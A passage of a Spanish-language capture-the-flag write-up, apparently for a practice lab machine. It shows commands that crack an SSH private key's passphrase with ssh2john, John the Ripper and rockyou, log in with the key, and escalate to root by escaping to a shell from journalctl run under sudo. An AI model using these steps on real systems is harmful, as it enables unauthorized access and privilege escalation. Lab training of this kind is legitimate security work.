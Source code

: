 ### ssh2john {-}

```bash
ssh2john.py id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

La contraseña de la id_rsa a sido crackeada y ya nos podemos conectar con ssh

```bash
ssh -i id_rsa david@10.10.10.165 
```

### Escalada de privilegio para root {-}

```bash
ls -l
#Output
bin

cd bin/
cat server-stats.sh
```

Vemos en este fichero que sudo puede ejecutar **journalctl**

Vamos a la pagina de [gtfobins](gtfobins.github.io) y buscamos por jounalctl

El **gtfobins** dice que hay que lanzar jounalctl con sudo y en otra linea poner `!/bin/sh`

> [!] NOTA: cuando pone ! en otra linea quiere decir que hay que ejecutarlo en modo less. O sea hay que reducir la terminal para que se pueda introducir un nuevo commando. En este caso !/bin/sh

Ya estamos root y seguimos mas hack que nunca.
